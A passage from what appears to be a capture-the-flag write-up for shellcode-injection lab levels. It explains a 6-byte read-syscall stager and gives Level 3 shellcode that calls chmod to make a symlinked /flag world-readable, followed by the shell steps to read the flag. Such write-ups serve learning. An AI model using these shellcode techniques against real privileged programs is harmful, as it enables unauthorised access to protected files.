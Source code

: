 Run it with `python injection.py`. This shellcode will grant you acces to the flag, so you'll be able to see it with `cat /flag`

> In this level the shellcode has to be just 6 bytes. We cannot directly use the **chmod** syscall anymore as it is not possible to make the code shorter by using this syscall. What we are gonna do now is use the **read** syscall:
>
> ```
> %rax	System call		%rdi						%rsi				%rdx
> 0	    sys_read		unsigned int fd	    		char *buf			size_t count
> ```
>
> This way we're gonna open the stdin of the challenge again and redirect it to the second part of the shellcode





****



## Level3

Replace the shellcode variable in the script of **level1** with the code below:

```python
shellcode = '''
	mov al, 90
    push 0x66 /* f */
    mov rdi, rsp
    mov si, 0777
    syscall
'''
```

Get in your home directory `~`, and from there create a symlink with `ln -s /flag f`. Now run the script with `python injection.py`. This shellcode will grant you acces to the flag, so you'll be able to see it with `cat /flag`
